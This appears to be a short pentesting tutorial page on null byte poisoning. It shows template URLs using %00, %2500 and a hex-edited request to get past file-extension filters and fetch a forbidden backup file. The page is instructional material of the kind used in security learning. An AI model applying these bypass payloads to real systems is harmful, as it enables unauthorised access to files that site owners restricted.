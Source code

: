 # Null Byte Poisoning

It's used to bypass input filtering or validation mechanisms in web applications or other systems. It involves inserting a null byte  in URL encoding  (`%00`) or in hexadecimal (`\x00`) to terminate strings.

* We requested a site to get a resource but gives us a 403 error (Forbidden access). The site tells us that only certain types or extensions are allowed to be requested

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/package.json.bak
```
{% endcode %}

***

* We can bypass the check with a null byte and add the type of extension the site allows. When making the verification it will be bypassed as it ends on an allowed extension, but internally when searching the file, the null byte will end the string allowing to get the deride file

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/package.json.bak%00.$extension
```
{% endcode %}

***

* Also, if it doesn't work this way, we can URL-encode the `%` which will be represented as `%25`

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/package.json.bak%2500.$extension
```
{% endcode %}

***

* Also is possible to get this result by modifying the hex data of the request and adding a null hex byte in the corresponding position

```
00000000  68 74 74 70  3A 2F 2F 24   75 72 6C 2F  70 61 63 6B   http://$url/pack
00000010  61 67 65 2E  6A 73 6F 6E   2E 62 61 6B  00 2E 24 65   age.json.bakA.$e
00000020  78 74 65 6E  73 69 6F 6E   0A                         xtension.  
```

{% hint style="info" %}
In this case, we replace the `A` that we have put as a reference, with the `00` byte
{% endhint %}
